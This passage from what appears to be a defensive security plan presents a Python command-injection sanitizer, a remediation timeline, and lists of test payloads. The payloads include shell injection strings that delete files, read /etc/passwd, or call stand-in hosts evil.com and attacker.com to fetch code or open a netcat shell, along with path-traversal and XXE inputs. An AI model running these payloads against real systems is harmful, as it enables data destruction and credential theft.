 ### 4. Command Injection Prevention
```python
import shlex
import re

def sanitize_command_input(user_input: str) -> str:
    # Remove shell metacharacters
    dangerous_chars = re.compile(r'[;&|`$(){}[\]<>]')
    if dangerous_chars.search(user_input):
        raise ValidationError("Command contains dangerous characters")
    
    # Escape shell arguments safely
    return shlex.quote(user_input)
```

## Implementation Priority Matrix

### Critical (Immediate) - Next 30 Days
1. **Command Injection Prevention**: Sanitize all command inputs
2. **Path Traversal Protection**: Validate all file operations  
3. **XML Security**: Secure XML processing configuration
4. **Size Limits**: Implement input length and memory limits

### High Priority - Next 3 Months
1. **Type Validation**: Implement strict type checking
2. **URL Validation**: Secure external request validation
3. **Regex Security**: ReDoS protection and pattern validation
4. **Configuration Security**: Secure template processing

### Medium Priority - Next 6 Months  
1. **Advanced Injection Protection**: ML-based injection detection
2. **Content Security Policy**: Comprehensive content restrictions
3. **Rate Limiting**: Request and resource abuse prevention
4. **Audit Logging**: Comprehensive validation event logging

## Validation Testing Strategy

### 1. Security Test Cases
```python
# Command injection test cases
test_cases = [
    "; rm -rf /",
    "$(cat /etc/passwd)",
    "`wget evil.com/malware`", 
    "| nc attacker.com 4444",
    "&& curl evil.com/backdoor.sh"
]

# Path traversal test cases  
path_tests = [
    "../../../etc/passwd",
    "..\\..\\..\\windows\\system32\\config\\sam",
    "/etc/shadow",
    "../../../../root/.ssh/id_rsa"
]

# XML injection test cases
xml_tests = [
    "<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>",
    "<!ENTITY lol 'lol'><!ENTITY lol2 '&lol;&lol;'>",
    "<?xml version='1.0'?><!DOCTYPE root SYSTEM 'http://evil.com/evil.dtd'>"
```